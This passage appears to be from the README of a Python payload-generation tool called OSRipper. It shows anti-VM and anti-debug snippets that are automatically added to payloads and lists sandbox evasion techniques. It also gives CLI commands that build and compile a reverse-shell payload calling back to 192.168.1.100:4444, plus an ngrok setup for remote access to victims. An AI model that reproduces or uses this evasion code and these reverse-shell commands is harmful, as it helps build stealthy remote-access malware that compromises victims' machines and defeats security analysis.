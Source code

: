 ### Evasion Features

#### Anti-VM Detection
```python
# Automatically added to payloads
vm_indicators = ['vmware', 'virtualbox', 'qemu']
if any(indicator in platform.platform().lower() for indicator in vm_indicators):
    os._exit(0)
```

#### Anti-Debug Protection
```python
# Timing-based detection
start = time.time()
time.sleep(0.01)
if time.time() - start > 0.1:
    os._exit(1)
```

#### Sandbox Evasion
- Process enumeration checks
- Hardware fingerprinting
- Behavioral analysis resistance

### Compilation Options

#### Nuitka (Recommended)
```bash
python3 cli.py reverse -h 192.168.1.100 -p 4444 --compile
```

**Advantages**:
- Better performance
- Smaller file size
- Native compilation
- Cross-platform support

#### PyInstaller
```bash
# Configure in osripper.yml
compilation:
  compiler: "pyinstaller"
```

### Ngrok Integration

Automatic tunnel creation for easy remote access:

```bash
python3 cli.py reverse --ngrok -p 4444
```

**Setup**:
1. Get API key from https://dashboard.ngrok.com/api
2. Configure in `osripper.yml`:
   ```yaml
   ngrok:
     auth_token: "your_token_here"
     region: "us"
   ```
